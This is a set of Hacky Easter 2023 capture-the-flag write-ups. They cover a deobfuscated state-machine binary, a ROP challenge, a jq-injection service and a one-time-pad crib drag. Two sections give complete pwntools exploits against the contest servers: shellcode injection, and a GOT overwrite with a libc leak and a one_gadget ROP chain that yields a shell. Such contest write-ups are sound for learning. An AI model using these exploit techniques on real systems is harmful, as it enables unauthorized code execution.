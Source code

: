 = [HE22.33] This one goes to 11
image::level8/challenge33.jpg[,300,float="right"]

== Intro
So tell me, how do I escape hell, wise man?

Connect to the server.

  nc ch.hackyeaster.com 2309

Note: The service is restarted every hour at x:00.

File: `hint`

=== Hint
Non est facilis labor fugere infernum, quia est fundamentum omnis mali ac
nequitiarum. Solum ultima tua clamor te liberabit ex hoc loco. Sed ante te
volvendus campis ad sinistram et ad dexteram et evadendus insidias mali Xorxis.
Sed ne putes id facile fore, qui victoriam quaerit, oportet ei mentem habere
quid in hoc labore vero est momenti.

== Solution
First thought: somebody has a too weird sense for music -- at least it was not
_Break like the wind_ or _Big bottoms_!

Back to the challenge: we are given a Linux executable, printing a nice banner
and expecting an input. Decompiling and analysing the file in Ghidra shows a
mess of jump statements or many nested `while` and `do .. while` loops.  The
unprocessed main function has more than 1000 lines.

Analysing the C-code a bit, it turns out that the code does have some
structure, it looks like a state machine from hell, obfuscated with some
superfluous constructs having no effect:

* there is a variable holding the state, typically `eax` or `iVar4`
* coming from the innermost loop, we see that it is coded as a `while (eax ==
  0x12345678) { ... ; eax = 0x23456781; }`.  So this loop can be changed to a
  simple `if` statement.
* there are `while(true)` loops that have a `if (eax != ...) break;` towards
  the end.  Between the `break` and the end of the loop is one step of the
  state machine.
* there are `while(true)` loops with a `if (eax == ...) break;`.  These can be
  changed to `while(eax ==...)`
* following these `break` statements follow `if (eax < ...) {` blocks that just
  guard nested `if (eax == ...) {` blocks.  These `if (eax < ...) {` can be
  eliminated completely.
* ```do .. while (0x5eda4e7a < eax);``` loops where the ending condition holds only
  within the loop.  The code follwing the `while` condition can be turned into
  an `if` block with the negated condition.

* some assignment statements of the form 
    ```eax = (-(uint)((local_228 & 1) != 0 &&
      9 < DAT_00108838) & 0xe3d46c4b)
      + 0x67f9bce3;````
  The local variable is always a multiple of two, so the whole expression can
  be reduced to `eax = ...`
* Finally, there are statements of the form
   `iVar4 = (-(uint)((ulong)local_1e6 < (long)eax - 4U) & 0x1fb155e1) +
   0x4b069874;` These are `if .. then .. else` statements thatneed to be
   calculated for both code paths.

Making these modifications was first attempted by hand, but quickly dismissed as
too error prone.  After some thought, the `tree-sitter` library was used and
the resulting AST could then be massaged quite comfortably.   One exemplary
function and the main driver are given here:

[source,python]
----
def replace_else(src, lines):    
    parser = Parser()
    parser.set_language(C_LANGUAGE)
    tree = parser.parse(src)
    for node in walk(tree):
        if node.type == 'if_statement':
            if alt := node.child_by_field_name('alternative'):
                else_s = node.children[3]
                start, end = else_s.start_point, alt.end_point
                lines[start[0]] = f'{lines[start[0]][:start[1]]}{lines[start[0]][else_s.end_point[1]:]}'
    return lines


if __name__ == '__main__':
    print(sys.argv)
    if len(sys.argv) < 2:
        print(f'usage: {sys.argv[0]} prog.c')
    else:
        with open(sys.argv[1], 'rb') as inF:
            src = inF.read()
            lines = bytes2lines(src)

        lines = replace_while_binary(src, lines)
        
        neu = ''.join(f'{l}\n' for l in lines)
        lines = replace_else(neu.encode('utf8'), lines)

        neu = ''.join(f'{l}\n' for l in lines)
        lines = replace_do_while(neu.encode('utf8'), lines)

        neu = ''.join(f'{l}\n' for l in lines)
        lines = replace_while_break(neu.encode('utf8'), lines)

        neu = ''.join(f'{l}\n' for l in lines)
        lines = replace_if_lt(neu.encode('utf8'), lines)

        neu = ''.join(f'{l}\n' for l in lines)
        with open('new.c', 'w') as outF:
            outF.write(neu)

----

Parsing the code this way ensured that the overall flow stayed intact,
especially finding the matching `while` to a `do` or the matching `break` for a
`while(true)` loop can be very tricky otherwise.  


Such simplified
code was then analysed by hand.  The code consists of several blocks beginning
with an unconditional `iVar4 = ...` statement.  From this statement, the
ordering of the flow through the state machine can be derived quite easily.
Typically, such a block contained quite a few not reachable states.  The
resulting simplified code was then re-engineered in python and has this simple
structure:

[source, python]
----
def process(b):
    add(b, -0xd)
    ror_base64(b, 0x15)
    bin_data = decode(b)
    ror(bin_data, 0x19)
    neg(bin_data)
    xor_code(bin_data)
    return bin_data
----

The whole processing of the input `b` does a subtraction on each byte, then a
rotation right of the data is done (4 bytes concatenated and interpreted as in
`int`).  Then something simplar to base64 decoding is done followed again by a
rotation and a bitwise negation.  The result is then `xor`-ed with a constant
byte-vector.  This `bin_data` is then executed, of course the region was made
executable before.

Since we can execute the result of `process(b)` and we control the input, we
can craft an input to give us a shell.  Reversing `process(b)` is possible, but
took time to verify against the c-code from Ghidra.  Shellcodes are readily
available at e.g https://www.exploit-db.com/shellcodes.  Several were tried and
https://www.exploit-db.com/shellcodes/41183 was working out of the box.

So the shellcode was sent through the reverse `process(b)` and the resulting input was used in a `pwnlib` attack script.

[source, python]
----
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

shellcode = b"'\xc0\xa6`\xc8vG\xb8\x8fH\xd8\xd6\xaf\xdf\xb7OH\xa7'H_\x88~G&O\xd8\x88f7\x97\xaf\xaf\xb6\x16x`HOG_\x88\xbf\x8e\xcfX\xd0'\x90\xd0\xb6\xaf?\xc0\xd0n\xd8\x87\xbeh"                                                                                                                                                                            
io.recvuntil(b'=\n')
io.send(shellcode + b'\r')
io.interactive()
----

Running this attack gives us a shell on the server and we find the flag at

    [+] Opening connection to ch.hackyeaster.com on port 2309: Done
    [*] Switching to interactive mode
    $ 
    $ ls
    hell
    ynetd
    $ cd /
    $ ls f*
    fl@gst0r3
    $ cd fl@gst0r3
    $ ls
    flag
    $ cat flag
    he2023{th1s_1s_SP1N4l_t4P!!}$  

Yes, it was Spinal Tap!  What a ride!

= [HE22.35] Thumper's PWN - Ring 1
image::level8/challenge34.jpg[,300,float="right"]

== Intro
Thumper has finally reached the innermost ring. He's given one last task to
complete. You need to get a passing average to get the flag.

Target: `nc ch.hackyeaster.com 2315``

Note: The service is restarted every hour at x:00.

File: `thumperspwn1.zip`

== Solution
The executable given is again for Linux and the C-code can be extracted using Ghidra

[source, c]
----
#include <stdio.h>
#include <stdlib.h>

void read_ints(long *arr,int max_input)
{
  int nNum;
  int i;
  
  for (i = 0; i <= max_input; i = i + 1) {
    nNum = scanf("%lld",arr + i);
    if (nNum != 1) {
                    /* WARNING: Subroutine does not return */
      exit(-1);
    }
    if (arr[i] == 0) break;
  }
  return;
}

int norm(long *arr,long *result)
{
  int i;
  
  *result = 0;
  for (i = 0; arr[i] != 0; i = i + 1) {
    *result = *result + arr[i];
  }
  *result = *result / (long)i;
  return i;
}


void main(void)
{
  int iVar1;
  long arr[5];
  long *avg_ptr;
  long average;
  
  arr[0] = 0;
  arr[1] = 0;
  arr[2] = 0;
  arr[3] = 0;
  arr[4] = 0;
  average = 0;
  avg_ptr = &average;
  puts("Give me a list of integers and I calculate the average");
  puts("0 is interpreted as the end of the input");
  read_ints(arr,5);
  iVar1 = norm(arr,avg_ptr);
  if (5 < iVar1) {
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  printf("%lld\n",average);
  return;
}
----

Things to notice:

* in `main` there is an array defined, starting at `arr_5` that has room for 5
  values, followed by another value, `avg_ptr`, and followed by another value
  `average`.  As part of the initialization, `avg_ptr` is initialized to
  `average`.  When calling `norm`, `avg_ptr` is passed to hold the result.
* in `read_ints` at maximum of 5 values should be read, but the loop conditions
  are such that 6 value can be read.  Effectively, `avg_ptr` is overwritten and
  does not point at `average` anymore
* in `norm` the average of arr[0..5] is written to where `avg_ptr` points at.  The
  loop is set-up so that it just continues until a 0 is hit.  Fortunately, just
  following `avg_ptr` is `average` and this one is initialized to 0.  So the we
  should be calling 

Effectively, we have a write-what-where gadget using `avp_ptr` that we can use
to redirect `exit` to `main`.  This allows us to re-enter the program over and
over again.  

When calling `exit` the contents of `arr[0..5]` are still on the stack, just
separated by the return address.  Using the `possibly_helpful_gadget` we can
install a ROP-chaing to leak libc-addresses.  Using the leaked addresses we can
infer the randomization offset and call a gadget for the win.

Unfortunately, the ROP-chain leaks successfully, but fails afterwards during
the next run in main.

Some discussion led to the insight that there is a stack alignment issue and
thus the attack has to be re-modelled slightly: instead of redirecting exit to
main, it is redirected to the `pop rdi; ret` gadget and the address of main is
placed in the first position of the array.  In this way we are jumping back to
main.  Now to leak the libc-addresses, we need to insert another `ret` to align
the stack.  This means that we cannot write a defined value to a defined
address, but at least we control where to write.  Use 0x601000 as address to
write to and build this ROP
chain:

  arr[0]: {ret}
  arr[1]: {pop rdi; ret}
  arr[2]: {puts_got}
  arr[3]: {puts}
  arr[4]: {main}
  arr[5]: harmless address

Now the ROP returns to main and doesn't crash and we can create another ROP
chain to jump to a gadget. 

[source,python]
----
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host ch.hackyeaster.com --port 2315 ./main
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./main')
host = args.HOST or 'ch.hackyeaster.com'
port = int(args.PORT or 2315)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

def rop_inputs(target_addr, target_val, chain):
    assert target_val < 0x3FFFFFFFFFFFFFFF
    inputs = [0,0,0,0,0,0]
    inputs[5] = target_addr
    for i in range(len(chain)):
        inputs[i] = chain[i]
    tmp = (target_val * 6 - sum(inputs)) // (6 - len(chain))
    for i in range(len(chain),4):
        inputs[i] = tmp
    inputs[4] = (target_val * 6 - sum(inputs)) 
    assert (sum(inputs) // 6) == target_val
    return inputs

io = start()

# some important constraints for ROP
rop_ret = 0x400933
rop_pop_rdi_ret = 0x400932
rop_harmless = 0x601000

# first redirect exit to call main again
# but because of stack alignment issues, do it via 
# 0x400932 (pop rdi; ret) and then leave 0x40094b 
# in input[0]
target_addr = exe.got['exit']
target_val = rop_pop_rdi_ret
inputs = rop_inputs(target_addr, target_val,[exe.symbols['main']])
log.info(io.recvuntil(b'input\n').decode('ascii'))
for v in inputs:
    io.sendline(str(v).encode('ascii'))


# define first rop to leak address of puts
# because of stack alignment issues, we just send it to somewhere where it
# cannot cause any harm
chain=[rop_ret, rop_pop_rdi_ret,
       exe.got['puts'], exe.symbols['puts'],
       exe.symbols['main'], rop_harmless]

log.info(io.recvuntil(b'input\n').decode('ascii'))
for v in chain:
    io.sendline(str(v).encode('ascii'))
tmp = io.recvuntil(b"\n").rstrip()
leaked_addr_puts_libc = u64(tmp.ljust(8, b"\x00")[:8])
log.info(f'Leaked server\'s libc address, puts(): {leaked_addr_puts_libc:x}')

if args.LOCAL:
    """
    root@hlzar❯ one_gadget /usr/lib/x86_64-linux-gnu/libc.so.6                           
    0x4bfe0 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
    constraints:
      rsp & 0xf == 0
      rcx == NULL
      rbx == NULL || (u16)[rbx] == NULL

    0xf2532 posix_spawn(rsp+0x64, "/bin/sh", [rsp+0x40], 0, rsp+0x70, [rsp+0xf0])
    constraints:
      [rsp+0x70] == NULL
      [[rsp+0xf0]] == NULL || [rsp+0xf0] == NULL
      [rsp+0x40] == NULL || (s32)[[rsp+0x40]+0x4] <= 0

    0xf253a posix_spawn(rsp+0x64, "/bin/sh", [rsp+0x40], 0, rsp+0x70, r9)
    constraints:
      [rsp+0x70] == NULL
      [r9] == NULL || r9 == NULL
      [rsp+0x40] == NULL || (s32)[[rsp+0x40]+0x4] <= 0

    0xf253f posix_spawn(rsp+0x64, "/bin/sh", rdx, 0, rsp+0x70, r9)
    constraints:
      [rsp+0x70] == NULL
      [r9] == NULL || r9 == NULL
      rdx == NULL || (s32)[rdx+0x4] <= 0
    """
    libc_path = '/usr/lib/x86_64-linux-gnu/libc.so.6'
    gadget = 0x4bfe0
    gadget = 0xf2532
    gadget = 0xf253a
else:
    """
    symbols from the remote libc (identified from leaked addresses):

    root@hlzar❯ one_gadget ./libc6_2.27-3ubuntu1.6_amd64.so                              
    0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
    constraints:
      rsp & 0xf == 0
      rcx == NULL

    0x4f302 execve("/bin/sh", rsp+0x40, environ)
    constraints:
      [rsp+0x40] == NULL

    0x10a2fc execve("/bin/sh", rsp+0x70, environ)
    constraints:
      [rsp+0x70] == NULL
    """
    libc_path = './libc6_2.27-3ubuntu1.6_amd64.so'
    gadget = 0x10a2fc
    gadget = 0x4f2a5
    gadget = 0x4f302

libc = context.binary = ELF(libc_path)
addr_puts = libc.symbols['puts']
# addr_execve = libc.symbols['execve'] - addr_puts + leaked_addr_puts_libc
addr_gadget = gadget - addr_puts + leaked_addr_puts_libc

# now call execve from the ROP
chain =[addr_gadget, 1, 1, 1, 1, rop_harmless]

log.info(io.recvuntil(b'input\n').decode('ascii'))
for v in chain:
    print(v, hex(v), str(v).encode('ascii'))
    io.sendline(str(v).encode('ascii'))
io.interactive()
----

I cheated here by assuming that we use the same
libc-version as in Ring-2 since it is running at the same host.  This second
ROP does give us a shell and we can get the flag:

  [*] Switching to interactive mode
  $ cd challenge
  $ ls
  FLAG
  main
  $ cat FLAG
  he2023{w3ll_d0ne_you_g0t_4_p4$$1ng_av3rag3_alth0ugh_w3_were_0ff_by_0n3}


= [HE22.35] Jason
image::level8/challenge35.jpg[,300,float="right"]

== Intro
Jason has implemented an information service.

He has hidden a flag in it, can you find it?

Connect to the server:

  nc ch.hackyeaster.com 2304

Note: The service is restarted every hour at x:00.

== Solution
The title of the challenge seems to indicate that we are dealing with JSON in
one form or the other.  We are presented with a terminal (text) application
that asks for an input and prints an answer.  There are several different
cases:

* if we enter one word of the category, we get the answer (`name` --> `Jason`)
* if we enter another word, but not a key, we get `null` as the result
* if we enter an incorrect character, we get `Invalid input`
* if we enter something that is not forbidden, but triggers an error, we get
  `Something went wrong`
* there is also some time-out on the input that prints the `Something went
  wrong` message

After a lot of playing around, we find that `.` triggers `{` as an answer.
This at least seems promising as the start of a JSON output, probably we are
just given the first line of the output.  Searching for tools that could be
used to process the input, `jq` seems a possible candidate and we can build up
a command to list all the keys available.


  > enter "name", "surname", "street", "city", "country", or "q" to quit
  >  | keys[]
  Result: "city"
  
  > enter "name", "surname", "street", "city", "country", or "q" to quit
  >  | keys | @csv
  Result: "\"city\",\"country\",\"covert\",\"name\",\"street\",\"surname\""
  > enter "name", "surname", "street", "city", "country", or "q" to quit
  > covert
  Result: {
  > enter "name", "surname", "street", "city", "country", or "q" to quit
  > covert | keys | @csv
  
  > Result: "\"flag\""
  > enter "name", "surname", "street", "city", "country", or "q" to quit
  > covert.flag
  Result: "he2023{gr3pp1n_d4_js0n_l1k3_4_pr0!}"
  
The output above has been cleaned up for some `Something went wrong` messages

= [HE22.36] The Little Rabbit
image::level8/challenge36.jpg[,300,float="right"]

== Intro
Oh no! Someone encrypted my poem, using a One-Time-Pad.

Good news: Each line was encrypted individually, with the same key.

Bad news: The plaintext was changed somehow, before encryption.

== Solution
The poem is encrypted using a One-Time-Pad, so it is probably xor'ed with the
plaintext.  And since the same pad was used for all the lines, we can try a
bootstrap approach: if we have a crib and we know the position of the crib,
then in all the other lines at the same positions there must also be a sensible
text.

The poem was altered before encryption and from the title given in
`cipher.txt`: "The Little Rabbit Ohaal" we can deduct that the poem was rot13
treated before encryption.

To start with, use the crib `` he2023{``, rot 13 it to `` ur2023{`` and scan
all lines at all positions.  Print the ones where all four lines have text that
contains only letters, numbers, or punctuation characters ` {}.,!_`.  This
gives a nice start (use Cyber Chef to get the rot13 cribs):

  b' ur2023{' pos: 11 ,ggyr Oha, ,nyy bs u, ,uvat va , , ur2023{, 
  o' he2023{' cbf: 11 ,ttle Bun, ,all of h, ,hing in , , he2023{,
  
Now on to `ttle Bun` which must be ` little Bunny `and which in turn gives us
fragments on the other lines to extend. Repeating this process we get inthe end
the partially decoded poem:

  I have a little Bunny with a coat as soft as down 
  And nearly all of him is white except one bit of brown
  The first thing in the morning when I get out of bed 
  I wonder if he2023{cr1b_dr4ggin_4_pr0fit!} is the flag  
  
So the flag is ``he2023{cr1b_dr4ggin_4_pr0fit!}``
